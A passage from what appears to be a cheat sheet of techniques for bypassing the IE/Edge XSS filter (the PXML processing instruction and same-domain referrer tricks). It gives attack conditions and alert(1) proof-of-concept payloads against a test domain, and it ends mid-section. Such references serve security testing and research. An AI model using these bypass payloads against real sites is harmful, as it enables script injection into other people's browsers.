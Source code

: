 ### `<?PXML>` use (IE only)

Conditions for attacking:

1. Has reflective XSS
2. `<`3 or more do not appear before the injection point
3. The document mode of the page is set to 9 or less, or you can set the document mode to 9 or less by embedding in a frame, etc.

Reference URL:

- [https://masatokinugawa.l0.cm/2017/05/xss13.html](https://masatokinugawa.l0.cm/2017/05/xss13.html)

PoCs:

[https://vulnerabledoma.in/bypass/text?q=%3C?PXML%3E%3Chtml:script%3Ealert(1)%3C/html:script%3E&xuac=9](https://vulnerabledoma.in/bypass/text?q%3D%253C?PXML%253E%253Chtml:script%253Ealert(1)%253C/html:script%253E%26xuac%3D9)

```html
<?PXML><html:script>alert(1)</html:script>
```

[https://vulnerabledoma.in/bypass/text?q=%3CPXML%3E%3Chtml:script%3Ealert(1)%3C/html:script%3E&xuac=9](https://vulnerabledoma.in/bypass/text?q%3D%253CPXML%253E%253Chtml:script%253Ealert(1)%253C/html:script%253E%26xuac%3D9)

```html
<PXML><html:script>alert(1)</html:script>
```

### Use of referrer

IE/Edge's XSS filter does not work in cases with a Referer header from the same domain (including subdomains) or localhost. Bypassing is possible if such a referrer can be attached.

#### Use of link functions within the same domain (including subdomains)

Conditions for attacking:

1. Has reflective XSS
2. Create links to XSS pages on the same domain (including subdomains)

PoCs:

- [https://vulnerabledoma.in/bypass/same-domain-link.html](https://vulnerabledoma.in/bypass/same-domain-link.html)
- [https://www.vulnerabledoma.in/bypass/same-domain-link.html](https://www.vulnerabledoma.in/bypass/same-domain-link.html)

```html
<a href="https://vulnerabledoma.in/bypass/text?q=<script>alert(1)</script>">Click HERE</a>
```

#### Bypass where arbitrary URL can be specified

Conditions for attacking:
